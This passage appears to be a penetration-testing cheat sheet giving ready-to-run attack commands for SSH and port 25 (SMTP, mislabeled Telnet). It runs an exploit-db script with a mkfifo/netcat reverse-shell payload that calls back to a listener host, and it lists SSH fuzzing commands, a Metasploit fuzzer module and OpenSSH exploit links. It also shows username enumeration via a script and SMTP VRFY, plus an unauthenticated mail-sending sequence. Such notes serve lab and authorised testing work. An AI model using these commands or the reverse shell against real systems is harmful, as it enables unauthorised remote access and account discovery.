 ```
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"

SSH FUZZ
https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt

cpan Net::SSH2
./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p user

use auxiliary/fuzzers/ssh/ssh_version_2

SSH-AUDIT
https://github.com/arthepsy/ssh-audit

• https://www.exploit-db.com/exploits/18557 ~ Sysax 5.53 – SSH ‘Username’ Remote Buffer Overflow
• https://www.exploit-db.com/exploits/45001 ~ OpenSSH < 6.6 SFTP – Command Execution                             
• https://www.exploit-db.com/exploits/45233 ~ OpenSSH 2.3 < 7.7 – Username Enumeration                             
• https://www.exploit-db.com/exploits/46516 ~ OpenSSH SCP Client – Write Arbitrary Files                             

http://www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html


SSH Enum users < 7.7:
https://github.com/six2dez/ssh_enum_script
https://www.exploit-db.com/exploits/45233
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null | grep "is a"

```

## Port 25 - Telnet

```
nc -nvv 10.11.1.111 25
HELO foo<cr><lf>

telnet 10.11.1.111 25
VRFY root

nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.11.1.111
smtp-user-enum -M VRFY -U /root/sectools/SecLists/Usernames/Names/names.txt -t 10.11.1.111

Send email unauth:

MAIL FROM:admin@admin.com
RCPT TO:DestinationEmail@DestinationDomain.com
DATA
test

.

Receive:
250 OK
```
